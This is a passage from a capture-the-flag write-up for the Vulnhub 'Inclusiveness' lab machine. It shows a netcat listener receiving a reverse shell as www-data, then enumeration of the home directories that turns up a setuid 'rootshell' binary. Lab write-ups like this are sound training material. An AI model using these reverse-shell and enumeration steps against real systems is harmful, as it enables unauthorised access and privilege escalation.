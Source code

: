 
![Image](/assets/img/WriteUp/Vulnhub/Inclusiveness/Pasted image 20240401153648.png){: width="700" height="400" }


## Initial access
It looks like the page is still loading, this is a good indication that we should check our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub]
└─$ nc -lvp 1234 
listening on [any] 1234 ...
10.0.2.64: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.64] 34842
Linux inclusiveness 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux
 23:36:12 up 31 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 


```
It looks like we have a connection with our target. Let's run some basic command to check who we are and in what directory we are working.

```bash
$ whoami
www-data
$ pwd
/

```
Let's check the home directories for anything juicy.

```bash
$ ls /home -ahlR
/home:
total 12K
drwxr-xr-x  3 root root 4.0K Feb  8  2020 .
drwxr-xr-x 19 root root 4.0K Feb  8  2020 ..
drwxr-xr-x 15 tom  tom  4.0K Feb  8  2020 tom

/home/tom:
total 100K
drwxr-xr-x 15 tom  tom  4.0K Feb  8  2020 .
drwxr-xr-x  3 root root 4.0K Feb  8  2020 ..
-rw-------  1 tom  tom   684 Feb  8  2020 .ICEauthority
-rw-r--r--  1 tom  tom   220 Feb  8  2020 .bash_logout
-rw-r--r--  1 tom  tom  3.5K Feb  8  2020 .bashrc
drwx------ 10 tom  tom  4.0K Feb  8  2020 .cache
drwx------ 10 tom  tom  4.0K Feb  8  2020 .config
drwx------  3 tom  tom  4.0K Feb  8  2020 .gnupg
drwx------  3 tom  tom  4.0K Feb  8  2020 .local
-rw-r--r--  1 tom  tom   807 Feb  8  2020 .profile
drwx------  2 tom  tom  4.0K Feb  8  2020 .ssh
drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Desktop
drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Documents
drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Downloads
drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Music
drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Pictures
drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Public
drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Templates
drwxr-xr-x  2 tom  tom  4.0K Feb  8  2020 Videos
-rwsr-xr-x  1 root root  17K Feb  8  2020 rootshell
-rw-r--r--  1 tom  tom   448 Feb  8  2020 rootshell.c
```